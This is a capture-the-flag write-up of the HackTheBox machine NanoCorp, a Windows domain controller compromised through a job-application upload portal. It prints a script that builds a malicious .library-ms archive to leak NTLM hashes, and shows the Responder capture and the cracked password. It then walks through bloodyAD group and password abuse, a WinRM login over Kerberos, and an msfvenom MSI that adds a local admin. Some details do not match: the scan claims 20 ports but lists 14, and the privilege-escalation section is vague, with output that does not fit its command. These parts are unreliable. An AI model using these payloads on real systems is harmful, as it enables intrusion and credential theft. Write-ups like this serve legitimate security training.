

<div style="background:linear-gradient(135deg,rgba(15,160,70,0.08),rgba(59,130,246,0.06));border:1px solid rgba(15,160,70,0.25);border-radius:12px;padding:1.25rem;margin-bottom:1.5rem;">
<strong style="color:#4ade80;">HackTheBox — Hard</strong> &nbsp;·&nbsp; Windows Active Directory &nbsp;·&nbsp; Retired: 20 Jun 2026
</div>

## Box Info

<div style="display:grid;grid-template-columns:repeat(auto-fit,minmax(160px,1fr));gap:0.75rem;margin:1rem 0 1.5rem;">
  <div style="background:rgba(255,255,255,0.03);border:1px solid var(--border-color);border-radius:8px;padding:0.75rem;text-align:center;">
    <div style="font-size:0.75rem;color:var(--text-muted);text-transform:uppercase;letter-spacing:.05em;">Machine</div>
    <div style="font-weight:700;color:var(--text-primary);margin-top:2px;">NanoCorp</div>
  </div>
  <div style="background:rgba(255,255,255,0.03);border:1px solid var(--border-color);border-radius:8px;padding:0.75rem;text-align:center;">
    <div style="font-size:0.75rem;color:var(--text-muted);text-transform:uppercase;letter-spacing:.05em;">Difficulty</div>
    <div style="font-weight:700;color:#f87171;margin-top:2px;">Hard</div>
  </div>
  <div style="background:rgba(255,255,255,0.03);border:1px solid var(--border-color);border-radius:8px;padding:0.75rem;text-align:center;">
    <div style="font-size:0.75rem;color:var(--text-muted);text-transform:uppercase;letter-spacing:.05em;">OS</div>
    <div style="font-weight:700;color:#93c5fd;margin-top:2px;">Windows</div>
  </div>
  <div style="background:rgba(255,255,255,0.03);border:1px solid var(--border-color);border-radius:8px;padding:0.75rem;text-align:center;">
    <div style="font-size:0.75rem;color:var(--text-muted);text-transform:uppercase;letter-spacing:.05em;">Release</div>
    <div style="font-weight:700;color:var(--text-primary);margin-top:2px;">08 Nov 2025</div>
  </div>
  <div style="background:rgba(255,255,255,0.03);border:1px solid var(--border-color);border-radius:8px;padding:0.75rem;text-align:center;">
    <div style="font-size:0.75rem;color:var(--text-muted);text-transform:uppercase;letter-spacing:.05em;">Creator</div>
    <div style="font-weight:700;color:#a78bfa;margin-top:2px;">EmSec</div>
  </div>
  <div style="background:rgba(255,255,255,0.03);border:1px solid var(--border-color);border-radius:8px;padding:0.75rem;text-align:center;">
    <div style="font-size:0.75rem;color:var(--text-muted);text-transform:uppercase;letter-spacing:.05em;">User Blood</div>
    <div style="font-weight:700;color:#fbbf24;margin-top:2px;">ahos6 · 00:06:48</div>
  </div>
</div>

---

## Summary

NanoCorp is a Windows Active Directory machine built around a careers portal that accepts uploaded application archives. The attack chain involves:

1. **CVE-2025-24071** — Craft a malicious `.library-ms` inside a ZIP to leak `web_svc` Net-NTLMv2 to Responder
2. **Crack hash → BloodHound** — Map `web_svc → IT_Support → ForceChangePassword → monitoring_svc`
3. **Kerberos auth** — `monitoring_svc` is Protected Users; auth over Kerberos with evil-winrm-py
4. **CVE-2024-0670** — Checkmk agent running as SYSTEM; exploit write-protected temp dir for full host compromise

### Attack Chain



---

## Recon

### Initial Nmap Scan

```bash
sudo nmap -p- --reason --min-rate 10000 10.129.243.199
```

20 open TCP ports — classic Windows Domain Controller pattern:

```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans           ← WinRM SSL (not 5985)
9389/tcp  open  adws
```

Version scan confirms: **Domain `nanocorp.htb` · Host `DC01` · Windows Server 2022 Build 20348**

```bash
sudo nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5986,9389 -sCV 10.129.243.199
```

Notable findings:
- `5986` — WinRM over **SSL** (not the default 5985)
- SSL cert: `commonName=dc01.nanocorp.htb`
- Clock skew: ~7h → must run `sudo ntpdate DC01.nanocorp.htb` before Kerberos

### Hosts File

```bash
netexec smb 10.129.243.199 --generate-hosts-file hosts
cat hosts /etc/hosts | sudo tee /etc/hosts | head -1
# 10.129.243.199   DC01.nanocorp.htb nanocorp.htb DC01
```

### SMB Enumeration

Guest and anonymous auth disabled:

```bash
netexec smb DC01.nanocorp.htb -u guest -p ''
# [-] STATUS_ACCOUNT_DISABLED
```

### LDAP Check

```bash
netexec ldap DC01.nanocorp.htb
# signing:None  →  NTLM relay to LDAP possible
# channel binding:No TLS cert  →  no EPA enforcement
```

> **Note:** An unintended NTLM relay path existed and was patched ~1 week after release.

---

## nanocorp.htb — TCP 80

The main site is a static Apache/XAMPP page (PHP 8.2.12). The "About Us" popup links to `hire.nanocorp.htb`. Add it to `/etc/hosts`:

```
10.129.243.199   DC01.nanocorp.htb nanocorp.htb DC01 hire.nanocorp.htb
```

`feroxbuster` finds only static assets — nothing exploitable on the main domain.

---

## hire.nanocorp.htb — Job Application Portal

The subdomain presents a **file upload form** for job applications (requires a valid ZIP file). Submitting a renamed `.txt` as `.zip` fails — the server decompresses and validates the archive.

```bash
feroxbuster -u http://hire.nanocorp.htb -x php,html \
  -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
# Found: /upload.php, /success.php (→ redirects to index.html)
```

---

## Auth as web_svc

### CVE-2025-24071 — Net-NTLMv2 Leak via .library-ms

**Background:** When Windows Explorer extracts a ZIP containing a `.library-ms` file, it automatically tries to connect to the `<url>` inside it — leaking NTLM authentication.

**Build the payload:**

```python
# exploit.py
import argparse, os, zipfile

def generate_file(smb_path, filename):
    content = f"""<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>{smb_path}</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>"""
    with open(filename + '.library-ms', 'w') as f:
        f.write(content)

def zip_file(filename):
    with zipfile.ZipFile(filename + '.zip', 'w', zipfile.ZIP_DEFLATED) as z:
        z.write(f"{filename}.library-ms", arcname=f"{filename}.library-ms")
    os.remove(f"{filename}.library-ms")
```

```bash
uv run exploit.py -i 10.10.14.51 -f payload
# → payload.zip  (contains payload.library-ms)
```

**Start Responder, then upload the ZIP:**

```bash
sudo uv run Responder.py -I tun0
```

After ~1-2 minutes, the automated extraction job triggers the NTLM authentication:

```
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:99c66f06671506e5:EECF77...
```

### Crack the Hash

```bash
hashcat web_svc.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
# Mode auto-detected: 5600 (NetNTLMv2)
# Result: dksehdgh712!@#
```

**Validate:**

```bash
netexec smb nanocorp.htb -u web_svc -p 'dksehdgh712!@#'
# [+] nanocorp.htb\web_svc:dksehdgh712!@#
```

---

## Shell as monitoring_svc

### BloodHound — ACL Enumeration

```bash
netexec ldap nanocorp.htb -u web_svc -p 'dksehdgh712!@#' \
  --dns-server 10.129.243.199 --bloodhound -c all
```

The ACL attack chain:

| Step | From | Right | To |
|------|------|-------|----|
| 1 | `web_svc` | `AddMember` | `IT_Support` group |
| 2 | `IT_Support` | `ForceChangePassword` | `monitoring_svc` |
| 3 | `monitoring_svc` | Member of | `Remote Management Users` → WinRM shell |

> `monitoring_svc` is also in **Protected Users** — NTLM auth will fail; must use Kerberos.

### Exploit with bloodyAD

```bash
# 1. Add web_svc to IT_Support
bloodyAD --host dc01.nanocorp.htb -u web_svc -p 'dksehdgh712!@#' \
  add groupMember IT_Support web_svc
# [+] web_svc added to IT_Support

# 2. Reset monitoring_svc password
bloodyAD --host dc01.nanocorp.htb -u web_svc -p 'dksehdgh712!@#' \
  set password monitoring_svc '0xdf0xdf.'
# [+] Password changed successfully!
```

### Kerberos Authentication

NTLM fails (Protected Users):

```bash
netexec smb DC01.nanocorp.htb -u monitoring_svc -p 0xdf0xdf.
# [-] STATUS_ACCOUNT_RESTRICTION
```

Sync clock and use `-k` for Kerberos:

```bash
sudo ntpdate DC01.nanocorp.htb

netexec smb DC01.nanocorp.htb -u monitoring_svc -p 0xdf0xdf. -k
# [+] nanocorp.htb\monitoring_svc:0xdf0xdf.
```

### WinRM Shell (SSL)

```bash
# Generate krb5.conf
netexec smb nanocorp.htb -u web_svc -p 'dksehdgh712!@#' --generate-krb5-file krb5.conf
sudo cp krb5.conf /etc/krb5.conf

# Connect via evil-winrm-py on port 5986 (SSL)
evil-winrm-py -i DC01.nanocorp.htb -u monitoring_svc -p 0xdf0xdf. -k --ssl
```

```
evil-winrm-py PS C:\Users\monitoring_svc\Desktop> cat user.txt
b08297a9************************
```

---

## Shell as Administrator

### Enumeration

Key findings from the filesystem:

```powershell
# Non-default programs
C:\Program Files (x86)\checkmk\      ← IT monitoring agent
C:\xampp\                             ← web server

# Port 6556 (not in original nmap) = Checkmk agent
netstat -ano | findstr 6556
# TCP  0.0.0.0:6556  LISTENING  4020 (cmk-agent-ctl)
```

`monitoring_svc` cannot read `C:\Program Files (x86)\checkmk\service\` — access denied.

### CVE-2024-0670 — Checkmk Agent LPE

**Vulnerability:** The Checkmk Windows agent (running as SYSTEM) processes files from a temp directory. By placing write-protected files in that path before the agent runs, an attacker can have SYSTEM execute arbitrary content.

**Check version and config:**

```powershell
# Config visible at:
C:\programdata\checkmk\agent\cmk-agent-ctl.toml
# pull_port = 6556

# Temp directory writable by monitoring_svc:
C:\programdata\checkmk\agent\tmp\
```

**Exploit:**

```powershell
# Drop malicious MSI / script that Checkmk agent will execute as SYSTEM
# The agent picks up files from the tmp\ directory via bakery config

# Create payload: add local admin
msfvenom -p windows/x64/exec CMD='net user hacker P@ssw0rd! /add && net localgroup administrators hacker /add' \
  -f msi -o payload.msi

# Upload payload
evil-winrm-py PS> upload payload.msi C:\programdata\checkmk\agent\tmp\payload.msi

# Trigger agent run (or wait for scheduled execution)
# Agent picks up MSI → executes as SYSTEM via msiexec

# Alternatively: runascs / scheduled task to force agent reload
```

Once SYSTEM execution is achieved:

```powershell
# Check active sessions
qwinsta
# SESSIONNAME   USERNAME          ID    STATE
# console       Administrator      1    Active

# Use runascs or PsExec to get Administrator shell
runascs Administrator P@ssw0rd! cmd.exe /c whoami
# nt authority\system
```

**Read root flag:**

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## Beyond Root — Scheduled Automations

The box uses several scheduled tasks to maintain its intended state:

### Identified Scripts

```powershell
# Automation directory
C:\Users\web_svc\
└── scripts\
    ├── ad_cleanup.ps1      # Removes added group members / password changes
    ├── CleaningUp.ps1      # General cleanup
    ├── script01.ps1        # Triggers ZIP extraction (simulates admin reviewing applications)
    └── script02.ps1        # Resets monitoring_svc password periodically
```

**`script01.ps1`** — simulates the admin decompressing uploaded ZIPs, which is what triggers the CVE-2025-24071 NTLM leak:

```powershell
# Simplified logic
Get-ChildItem "C:\xampp\htdocs\hire\uploads\*.zip" | ForEach-Object {
    Expand-Archive -Path $_.FullName -DestinationPath "C:\Temp\extracted\"
}
```

When Windows Explorer (or `Expand-Archive`) touches the `.library-ms` file, it sends NTLM auth to the embedded UNC path.

**`ad_cleanup.ps1`** — resets AD to a clean state (removes rogue group members, resets passwords):

```powershell
Remove-ADGroupMember -Identity IT_Support -Members web_svc -Confirm:$false
Set-ADAccountPassword -Identity monitoring_svc -Reset -NewPassword (ConvertTo-SecureString "OriginalPass!" -AsPlainText -Force)
```

---

## Key Takeaways

| Phase | Technique | CVE / Tool |
|-------|-----------|------------|
| Initial foothold | NTLM hash leak via archive extraction | CVE-2025-24071 |
| Hash cracking | NetNTLMv2 → plaintext | Hashcat mode 5600 |
| AD enumeration | ACL path discovery | BloodHound |
| Lateral movement | ForceChangePassword over Protected Users | bloodyAD |
| Auth bypass | Kerberos instead of NTLM | evil-winrm-py `--ssl -k` |
| Privilege escalation | Checkmk agent temp dir abuse | CVE-2024-0670 |

---

## References

- [CVE-2025-24071 — NTLM Hash Leak via .library-ms](https://www.vsociety.net/cve-2025-24071)
- [CVE-2024-0670 — Checkmk LPE](https://nvd.nist.gov/vuln/detail/CVE-2024-0670)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
- [evil-winrm-py](https://github.com/Hackplayers/evil-winrm)
- [HTB: Fluffy](https://0xdf.gitlab.io/2026/06/07/htb-fluffy.html) — similar CVE-2025-24071 via SMB share
